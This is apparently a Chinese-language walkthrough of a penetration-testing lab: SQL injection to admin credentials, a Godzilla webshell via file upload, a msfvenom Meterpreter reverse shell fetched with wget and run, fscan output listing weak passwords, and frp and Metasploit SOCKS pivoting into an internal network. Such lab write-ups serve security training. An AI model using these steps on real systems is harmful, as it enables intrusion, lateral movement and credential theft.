## SQL注入拿到用户名密码

bs_admin

ae3700364f2111b2cea75d8e19d2331

aabbccdd@123

## 文件上传getshell

上传png然后抓个包



放包上传之后找到文件地址：







2e8bd56218dbeb24aa822539cd5bb6b9


用哥斯拉连接然后命令执行：



通过wget下载来一个fscan，通过`chmod +x fscan_amd64`赋权



不知道为什么通过哥斯拉的命令行执行`./fscan_amd64 -h 172.16.166.1/24`扫描不到

## msfvenom

这里通过msfvenom和msf配合，生成木马文件，在目标靶机上执行木马文件以拿到反弹shell，不再使用哥斯拉

```shell
┌──(root㉿kali)-[~]
└─# msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.201.82 LPORT=4444 -f elf -o shell.elf 

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: shell.elf
                                                                                                                 
┌──(root㉿kali)-[~]
└─# python3 -m http.server 9000                                                                            
Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
192.168.16.44 - - [24/Sep/2025 21:18:19] "GET /shell.elf HTTP/1.1" 200 -

```

msf中：

```shell
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.201.82
lhost => 192.168.201.82
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > exploit
```

在哥斯拉中通过wget下载 `wget http://192.168.201.82:9000/shell.elf`，然后`chmod +x shell.elf`，然后`./shell.elf`

执行后msf中拿到反弹shell

然后输入`shell`进入目标靶机命令行

下载fscan并扫描内网：

```shell
./fscan_amd64 -h 172.16.166.1/24

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.2
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.16.166.1    is alive
(icmp) Target 172.16.166.54   is alive
(icmp) Target 172.16.166.142  is alive
(icmp) Target 172.16.166.152  is alive
(icmp) Target 172.16.166.198  is alive
[*] Icmp alive hosts len is: 5
172.16.166.54:80 open
172.16.166.1:80 open
172.16.166.142:6379 open
172.16.166.142:22 open
172.16.166.142:8080 open
172.16.166.198:22 open
172.16.166.152:22 open
172.16.166.54:8080 open
172.16.166.1:8080 open
172.16.166.1:22 open
172.16.166.152:7001 open
172.16.166.198:3306 open
172.16.166.142:8009 open
[*] alive ports len is: 13
start vulscan
[+] Redis:172.16.166.142:6379 unauthorized file:/var/lib/redis/dump.rdb
[+] Redis:172.16.166.142:6379 like can write /root/.ssh/
[*] WebTitle: http://172.16.166.142:8080 code:200 len:11196  title:Apache Tomcat/9.0.30
[*] WebTitle: http://172.16.166.1:8080  code:200 len:931    title:None
[+] mysql:172.16.166.198:3306:root 123456
[*] WebTitle: http://172.16.166.54:8080 code:200 len:931    title:None
[*] WebTitle: http://172.16.166.1       code:200 len:17178  title:BEES企业网站管理系统_企业建站系统_外贸网站建设_企业CMS_PHP营销企业网站��
[*] WebTitle: http://172.16.166.54      code:200 len:17237  title:BEES企业网站管理系统_企业建站系统_外贸网站建设_企业CMS_PHP营销企业网站��
[+] http://172.16.166.54:8080 poc-yaml-thinkphp5-controller-rce 
[+] http://172.16.166.54:8080 poc-yaml-thinkphp5023-method-rce poc1
[+] http://172.16.166.1:8080 poc-yaml-thinkphp5023-method-rce poc1
[+] http://172.16.166.1:8080 poc-yaml-thinkphp5-controller-rce 
[*] WebTitle: http://172.16.166.152:7001 code:404 len:1164   title:Error 404--Not Found
[+] InfoScan:http://172.16.166.152:7001 [weblogic] 
[+] http://172.16.166.152:7001 poc-yaml-weblogic-ssrf 
[+] http://172.16.166.142:8080/manager/html poc-yaml-tomcat-manager-weak [{password tomcat} {username tomcat}]
[+] http://172.16.166.152:7001/console/j_security_check poc-yaml-weblogic-console-weak [{username weblogic} {password Oracle@123} {payload UTF-8}]
[+] http://172.16.166.152:7001 poc-yaml-weblogic-cve-2019-2729-2 
[+] http://172.16.166.152:7001 poc-yaml-weblogic-cve-2020-14750 
[+] http://172.16.166.152:7001 poc-yaml-weblogic-cve-2019-2729-1 
[+] http://172.16.166.152:7001 poc-yaml-weblogic-cve-2019-2725 v10
已完成 9/13 [-] ssh 172.16.166.142:22 root root#123 ssh: handshake failed: ssh: unable to authenticate, attempted methods [none password], no supported methods remain
已完成 9/13 [-] ssh 172.16.166.1:22 root 2wsx@WSX ssh: handshake failed: ssh: unable to authenticate, attempted methods [none password], no supported methods remain
已完成 9/13 [-] ssh 172.16.166.1:22 admin admin#123 ssh: handshake failed: ssh: unable to authenticate, attempted methods [none password], no supported methods remain

[+] SSH:172.16.166.198:22:admin 123qwe 

已完成 10/13 [-] ssh 172.16.166.1:22 admin 1qaz!QAZ ssh: handshake failed: ssh: unable to authenticate, attempted methods [none password], no supported methods remain

[+] SSH:172.16.166.142:22:admin 123qwe

已完成 13/13
[*] 扫描结束,耗时: 5m10.248059658s

```

## frp使用

在靶机下载frpc（注意内网的这台机器是客户端



再把配置文件frpc.toml下载过来：



两个配置文件：

```
┌──(root㉿kali)-[~/Desktop/frp_0.64.0_linux_amd64]
└─# cat frps.toml                      
bindPort = 7000
                                                                                            
┌──(root㉿kali)-[~/Desktop/frp_0.64.0_linux_amd64]
└─# cat frpc.toml
serverAddr = "192.168.201.82" #这是攻击机的ip 服务端的ip
serverPort = 7000

[[proxies]]
name = "test-tcp"
type = "tcp"
localIP = "172.16.166.198" # 内网的这台机器被扫出ssh账户密码了 
localPort = 22
remotePort = 6000

```

然后frp服务端启动：



frp客户端启动：



通过ssh连接到内网那台被扫出ssh账号密码的机器：

这里用的是frp服务端的ip，然后被frp转发



## 172.16.166.198

拿到了flag4：



在这台机器ifconfig



发现了一个192.168.0.1/24网段

## 172.16.166.142

用同样的方法ssh连接这台主机，但是由于刚才我们frp的服务端转发到了172.16.166.198，现在有转发到172.16.166.142，ssh发出警报，不许连接

在frp服务器（我的kali攻击机）输入以删除旧的密钥记录：ssh-keygen -f '/root/.ssh/known_hosts' -R '[192.168.201.29]:6000'





## MSF的自动路由配置

用msf的自动路由更加方便

在你的攻击机（运行 msfconsole 的那台机器）上启动一个本地 SOCKS 监听（比如 127.0.0.1:1080），把通过这个 SOCKS 的连接转发到 Metasploit，然后 Metasploit 根据路由表把流量通过对应的 session（即已经拿到 shell 的内网主机）转发到目标内网主机。你自己的工具（浏览器、curl、proxychains、proxifier 等）把流量发送到本地 SOCKS，那么就等于是“从你机器 → msf socks → meterpreter session → 目标内网”。

因为我们拿到了内网门户机器的shell，进入了meterpreter

```
meterpreter > run autoroute -s 172.16.166.0/24
给 Metasploit 通知：子网 `172.16.166.0/24` 是通过当前的 meterpreter session 可达的。
```

```
meterpreter > bg
[*] Backgrounding session 3...
把当前的 meterpreter 会话放后台（回到 msfconsole prompt），以便你可以在 msfconsole 里执行别的模块。
```

```
msf6 exploit(multi/handler) > route print`
在 msfconsole 中查看当前的路由表，显示 `172.16.166.0` 的网段已经指向 `Session 3
```

选择并启动了 Metasploit 自带的 SOCKS 代理模块，模块会在本机监听（默认 `0.0.0.0:1080`），把收到的 SOCKS 请求通过 msf 的路由表和会话转发到内网目标。

```bash
msf6 exploit(multi/handler) > search socks

Matching Modules
================

   #  Name                                     Disclosure Date  Rank    Check  Description
   -  ----                                     ---------------  ----    -----  -----------
   0  auxiliary/server/socks_proxy                              normal  No     SOCKS Proxy Server
   1  auxiliary/server/socks_unc                                normal  No     SOCKS Proxy UNC Path Redirection
   2  auxiliary/scanner/http/sockso_traversal  2012-03-14       normal  No     Sockso Music Host Server 1.5 Directory Traversal


Interact with a module by name or index. For example info 2, use 2 or use auxiliary/scanner/http/sockso_traversal                                                                       

msf6 exploit(multi/handler) > use 0
msf6 auxiliary(server/socks_proxy) > options

Module options (auxiliary/server/socks_proxy):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. T
                                       his must be an address on the local machine or 0.0.
                                       0.0 to listen on all addresses.
   SRVPORT  1080             yes       The port to listen on
   VERSION  5                yes       The SOCKS version to use (Accepted: 4a, 5)


   When VERSION is 5:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Proxy password for SOCKS5 listener
   USERNAME                   no        Proxy username for SOCKS5 listener


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server


View the full module info with the info, or info -d command.

msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.

[*] Starting the SOCKS proxy server
msf6 auxiliary(server/socks_proxy) > jobs

Jobs
====

  Id  Name                           Payload  Payload opts
  --  ----                           -------  ------------
  0   Auxiliary: server/socks_proxy


msf6 auxiliary(server/socks_proxy) > 
```

浏览器设置代理



这样浏览器就能直接访问内网的地址

终端设置代理：

```bash
vim /etc/proxychains4.conf  
```

将socks4的代理注释掉 socks5的代理设置为127.0.0.1:1080

```
# defaults set to "tor"
# socks4        127.0.0.1 9050
socks5 127.0.0.1 1080
```

然后终端就也能访问到内网地址：

```
 proxychains4 curl http://172.16.166.1:8080/
```

